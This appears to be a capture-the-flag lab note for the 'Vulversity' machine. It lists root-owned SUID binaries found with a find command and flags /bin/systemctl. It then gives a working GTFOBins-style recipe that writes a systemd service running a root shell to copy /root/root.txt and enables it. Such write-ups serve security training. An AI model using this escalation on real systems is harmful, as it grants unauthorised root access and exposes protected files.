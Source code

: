 # Machine : Vulversity
# TITLE :  PrivilegeList

## command : find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap <br>
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn <br>
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap <br>
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo <br>
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh <br>
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd <br>
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec <br>
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp <br>
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd <br>
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/ snap-confine <br>
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/ policykit-1/polkit-agent-helper-1 <br>
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign <br>
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device <br>
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger <br>
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper <br>
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic <br>
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su <br>
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g <br>
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount <br>
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6 <br>
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount <br>
***-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl*** <br>
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping <br>
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount <br>
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs <br>

# GTFObin "/bin/systemctl" privilege escalte command     
  &nbsp; TF=$(mktemp).service <br>
  &nbsp; echo '[Service] <br>

  &nbsp; Type=oneshot <br>
  &nbsp; ExecStart=/bin/sh -c "cat /root/root.txt >> /tmp/output.txt" <br>
  &nbsp; [Install] <br>
  &nbsp; WantedBy=multi -user.target' > $TF <br>
  
  &nbsp; /bin/systemctl link $TF <br>
  &nbsp; /bin/systemctl enable --now  $TF <br>